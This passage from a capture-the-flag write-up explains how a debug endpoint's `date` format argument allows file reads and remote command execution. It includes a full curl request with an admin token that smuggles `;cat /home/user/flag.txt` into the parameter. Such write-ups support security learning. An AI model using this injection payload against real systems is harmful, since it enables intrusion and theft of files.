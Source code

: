 From the information within the application's written notes, it becomes evident that the debug endpoints execute bash commands, and it seems that there is a command injection vulnerability in the format argument of the unix command `date`. Another way to discover this vulnerability involves probing the inputs within the endpoint and analysing the subsequent error messages. This underscores the significance of not exposing sensitive informations in error messages to prevent revealing potential security loopholes to users.

With sites such as [GTFOBins](https://gtfobins.github.io/) one could quickly figure out the possibility for arbitrary file reads (https://gtfobins.github.io/gtfobins/date/). Understanding that the backend is constructed with Express.js, exploring the file structure through `package.json` becomes feasible. Further inspection of the `index.js` file, housing the backend logic, unveils the flag being used as a token for another, more detailed debug endpoint.

![Local File Read on the debug-endpoint](https://hackmd.io/_uploads/B1SLRT5up.png)


### Flag

`OMEGAPOINT{d8b732c8a1d3e796be06bb8b8a172e7a}`

## [8] Take Control

### Description

> Knowing how to read is a good start, but can you also figure out how to access the server? It's necessary to figure out the parameters for the debugging endpoint.

### Solution
It appears that during the CTF, unintended solutions were found in this challenge due to the flag file's path being easily guessable. This allowed for one to directly read the file by deducing the system's user and file structure.

Addressing this, a potential solution involves making the flag file executable, mandating the need for Remote Code Execution (RCE) to access its content. Alternatively, introducing randomness or entropy into the file's name could enhance its unpredictability, making it less prone to straightforward guesses.

However, the intended and necessary solution to progress further to the next and final challenge requires achieving Remote Code Execution (RCE) within the system. The more detailed debug endpoint executes the Unix command `date` using `child_process.exec()` instead of `child_process.spawn()` in the last challenge, allowing for greater control over chaining multiple commands, thereby enabling for arbitrary RCE. For instance, appending a semicolon (`;`) followed by additional commands after executing date could serve as an example payload for achieving this RCE.


```sh
curl -s -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywidXNlcm5hbWUiOiJhZG1pbiIsImlzQWRtaW4iOjEsImlhdCI6MTcwMTE3MzQ4NiwiZXhwIjoxNzMyNzA5NDg2fQ.TFzllamMp0d7Rv9eIdRvvJHWr8-dk0h2iZSY1Z6nV5c' -H 'X-DEBUG: OMEGAPOINT{d8b732c8a1d3e796be06bb8b8a172e7a}' 'http://51.120.250.68/api/debug/date?format=a;cat%20/home/user/flag.txt'
```

![remote code execution on the debug endpoint](https://hackmd.io/_uploads/r1RBkM2_a.png)
